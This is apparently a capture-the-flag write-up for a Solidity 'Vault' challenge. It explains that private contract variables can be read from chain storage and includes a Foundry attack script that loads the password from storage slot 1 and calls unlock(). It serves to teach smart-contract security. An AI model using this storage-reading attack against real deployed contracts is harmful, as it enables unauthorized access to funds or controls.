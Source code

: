 # Vault   
Our mission in this challenge is to unlock the vault. To do this, we need to change the `locked` variable from `true` to `false`.
However, to achieve this, we must first determine the value of the `password`. At first glance, this seems challenging because the `password` is a private variable, and we cannot directly read its value... or can we? 🤔

While private variables in Solidity prevent other contracts from accessing their values, they do not stop real people like you and me from reading them. This means we can retrieve the `password` and use it to unlock the vault.

To accomplish this, we can use tools like `cast`, but I prefer writing a script for more control. Here's how I did it:   
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script, console2} from "forge-std/Script.sol";

contract AttackScript is Script {

	address victim = /* Your instance address */ ;	

	function run() public {
	bytes32 password = vm.load(victim, bytes32(uint256(1))); //1 because this is the slot of the password variable
	vm.startBroadcast();
	victim.call(abi.encodeWithSignature("unlock(bytes32)", password));
	vm.stopBroadcast();
	(, bytes memory data) = victim.staticcall(abi.encodeWithSignature("locked()"));
	console2.log(abi.decode(data, (uint256)));
}
}
```
